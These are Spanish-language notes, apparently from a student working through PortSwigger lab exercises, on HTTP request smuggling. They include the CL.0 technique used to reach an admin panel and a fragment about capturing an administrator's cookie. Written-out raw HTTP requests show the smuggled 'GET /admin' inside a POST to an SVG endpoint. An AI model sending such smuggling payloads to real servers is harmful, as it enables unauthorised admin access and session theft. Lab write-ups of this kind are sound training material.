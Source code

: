 ```js
GET /x HTTP/1.1
Host: vulnerable-website.com
//Sin las trails sequence ya que el inspector por default las agrega. 
```

Mandamos la request hasta poder tener acceso con la cookie de administrator, que se intercala nuestra peticion con la del user simulado, que cada 10seg intenta loguearse. 
![[Pasted image 20250219154445.png]]

### LAB: CL.0 request smuggling `admin panel`

* El backend server ignora la content-length
* Identificar un endpoint vulnerable el cual podamos trabajar con `HTTP/1.1`

El endpoint vulnerable en el cual podíamos añadir la petición era:
- `POST /resources/labheader/images/logoAcademy.svg HTTP/1.1`

* Test endpoints vulnerable to ignore Content-Length Add two requests to a group and send in `parallel single connection` both Change the `Connection` header of the first request to `keep-alive` If vulnerable, receive a 404 ->

* Mandamos el single connection hasta que veamos que el endpoint de la imagen `svg` ya no retorna la imagen como tal en el response sino que directamente la response con los endpoints de admin disponibles, ahí ya sabemos que tenemos el `admin-panel` listo. 
#### 1st Request -> 
`
```js
POST /resources/labheader/images/logoAcademy.svg HTTP/1.1
Host: ID-LAB.web-security-academy.net
Cookie: session=3JAVWbW7FjDvOWKLu9ihCc7HFHJ6Pd69
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:121.0) Gecko/20100101 Firefox/121.0
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
//esto de aqui pa abajo es lo que inyectamos
Content-Length: 29 //para que llegue solo hasta X-Foo:

GET /admin HTTP/1.1
X-foo: x
```

#### 2nd Request ->

* Tomamos la request del home page del lab. 

```js
//Enviamos esta request en un single connection attack en repeater junto con la 1st request. 
GET / HTTP/1.1
Host: ID-LAB.web-security-academy.net
Cookie: ..
User-Agent: ..
```
